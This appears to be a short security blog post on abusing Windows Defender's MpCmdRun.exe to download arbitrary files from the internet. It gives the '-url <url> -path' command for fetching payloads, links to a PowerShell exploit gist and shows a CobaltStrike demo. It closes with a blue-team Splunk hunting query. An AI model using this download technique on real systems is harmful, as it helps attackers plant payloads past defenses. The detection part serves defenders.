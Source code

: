 ```yaml
---
title: Windows Defender official backdoor - Download files from Internet using "MpCmdRun.exe".
date: 2020-09-04 08:00:00 +07:00
tags: [windows, backdoor, download, defender]
description: Download any files from internet using "MpCmdRun.exe"
---
```


Recently I found interesting post in twitter, one of the security researcher(Askar) is identified, Microsoft Defender feature it can able to download any files from Internet.

Microsoft Defender is having one of the executable(MpCmdRun.exe) which is used as Malware protection command line utility. This executable having a feature which can take any URL as an input and download files in specific Windows Defender system files path.

##### Windows Defender File Path:
```batch
C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2007.8-0\MpCmdRun.exe
```
#### More Info about MpCmdRun.exe binary:
[Detailed Info - MpCmdRun.exe](https://strontic.github.io/xcyclopedia/library/MpCmdRun.exe-73E18D56F42B16160008629E1C936311.html)

#### Windows Defender Command Line - MpCmdRun.exe (Download any payload)
```batch
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path>
```
#### Quick & Dirty - Powershell Script - Exploit Code:
[Abuse Windows Defender - MpCmdRun.exe - Powershell code](https://gist.github.com/klezVirus/977f6cd9e4126103326f6a28700382d1)

#### Demo by using CobaltStrike:
<figure>
<img src="/windowsdefender-official-backdoor-download-files-from-internet-mpcmdrun/cbstrike.jpeg" alt="Demo - CobaltStrike">
<figcaption>Demo - CobaltStrike</figcaption>
</figure>

#### BlueTeam - Threat Hunting / Quick & Dirty Detection:
```batch
Commandhistoryv2 _raw="*Download*" OR _raw="*URL*" OR _raw="*url*" OR _raw="*download*" OR _raw="*http://*" OR _raw="*https://*" OR _raw="*HTTP://*" OR _raw="*HTTPS://*"
| dedup CommandHistory
| table ComputerName ApplicationName CommandHistory FileName
```
#### BlueTeam - Splunk Detection:
<figure>
<img src="/windowsdefender-official-backdoor-download-files-from-internet-mpcmdrun/splunk.png" alt="Splunk hunting">
<figcaption>Splunk - Hunting</figcaption>
</figure>


#### References
- [Twitter Post](https://twitter.com/mohammadaskar2/status/1301263551638761477)
